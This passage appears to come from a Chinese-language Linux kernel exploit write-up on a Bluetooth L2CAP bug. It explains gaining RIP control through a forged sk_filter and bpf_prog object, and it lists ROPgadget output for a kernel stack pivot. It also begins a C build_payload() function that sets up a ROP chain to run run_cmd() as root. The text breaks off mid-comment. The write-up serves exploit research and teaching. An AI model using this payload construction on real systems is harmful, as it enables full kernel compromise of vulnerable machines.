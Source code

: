 总而言之，我们有：  
```
sk->sk_filter->prog->bpf_func(skb, sk->sk_filter->prog->insnsi);
```  
  
由于我们可以控制sk->sk_filter  
，因此我们也可以控制后面两个取消引用。这最终使我们拥有 RIP 控制权，其中 RSI 寄存器（第二个参数）指向我们的有效载荷。  
#### 内核堆栈透视  
  
由于现代 CPU 具有 NX，因此无法直接执行 shellcode。但是，我们可以执行代码重用攻击，例如 ROP/JOP。当然，为了重用代码，我们必须知道它的位置，这就是 KASLR 绕过必不可少的原因。关于可能的攻击，ROP 通常比 JOP 更容易执行，但这需要我们重定向堆栈指针 RSP。出于这个原因，漏洞利用开发人员通常执行 JOP 以进行堆栈枢转，然后以 ROP 链结束。  
  
这个想法是将堆栈指针重定向到由 ROP 小工具组成的有效载荷中的假堆栈，即我们的 ROP 链。由于我们知道 RSI 指向我们的有效载荷，因此我们希望将 RSI 的值移动到 RSP。让我们看看是否有小工具可以让我们这样做。  
  
为了提取小工具，我们可以使用以下工具：  
- extract-vmlinux  
解压缩/boot/vmlinuz  
。  
  
- ROPgadget  
从中提取 ROP 小工具vmlinux  
。  
  
寻找类似的小工具mov rsp, X ; ret  
，我们发现它们都没用。  
```
$ cat gadgets.txt | grep ": mov rsp.*ret"
0xffffffff8109410c : mov rsp, qword ptr [rip + 0x15bb0fd] ; pop rbx ; pop rbp ; ret
0xffffffff810940c2 : mov rsp, qword ptr [rsp] ; pop rbp ; ret
0xffffffff8108ef0c : mov rsp, rbp ; pop rbp ; ret
```  
  
也许有类似的东西push rsi ; pop rsp ; ret  
？  
```
$ cat gadgets.txt | grep ": push rsi.*pop rsp.*ret"
0xffffffff81567f46 : push rsi ; adc al, 0x57 ; add byte ptr [rbx + 0x41], bl ; pop rsp ; pop rbp ; ret
0xffffffff8156a128 : push rsi ; add byte ptr [rbx + 0x41], bl ; pop rsp ; pop r13 ; pop rbp ; ret
0xffffffff81556cad : push rsi ; add byte ptr [rbx + 0x41], bl ; pop rsp ; pop rbp ; ret
0xffffffff81c02ab5 : push rsi ; lcall [rbx + 0x41] ; pop rsp ; pop rbp ; ret
0xffffffff8105e049 : push rsi ; sbb byte ptr [rbx + 0x41], bl ; pop rsp ; pop rbp ; ret
0xffffffff81993887 : push rsi ; xchg eax, ecx ; lcall [rbx + 0x41] ; pop rsp ; pop r13 ; pop rbp ; ret
```  
  
完美，有很多小工具可以使用。有趣的是，所有小工具都会取消引用 RBX+0x41，这很可能是常用指令或指令序列的一部分。具体来说，由于指令可以从 x86 中的任何字节开始，因此可以根据起始字节对它们进行不同的解释。取消引用 RBX+0x41 实际上可能会妨碍我们使用小工具 - 也就是说，如果在执行时 RBX 不包含可写的内存地址bpf_func()  
，我们将在执行 ROP 链之前遇到 panic。幸运的是，在我们的例子中，RBX 指向对象struct amp_mgr  
，并且如果偏移量 0x41 处的字节发生变化，也不会造成太大影响。  
  
当选择 stack pivot gadget 作为函数指针bpf_func()  
并触发它时，RSI 的值将被推送到堆栈上，然后从堆栈中弹出并最终分配给 RSP。换句话说，堆栈指针将指向我们的有效载荷，一旦RET  
执行该指令，我们的 ROP 链就会启动。  
```
static void build_payload(uint8_t data[0x400]) {
  // Fake sk_filter object starting at offset 0x300.
  *(uint64_t *)&data[0x318] = l2cap_chan_addr + 0x320;  // prog

  // Fake bpf_prog object starting at offset 0x320.
  // RBX points to the amp_mgr object.
  *(uint64_t *)&data[0x350] =
      kaslr_offset +
      PUSH_RSI_ADD_BYTE_PTR_RBX_41_BL_POP_RSP_POP_RBP_RET;  // bpf_func
  *(uint64_t *)&data[0x358] = 0xDEADBEEF;                   // rbp

  // Build kernel ROP chain that executes run_cmd() from kernel/reboot.c.
  // Note that when executing the ROP chain, the data below in memory will be
```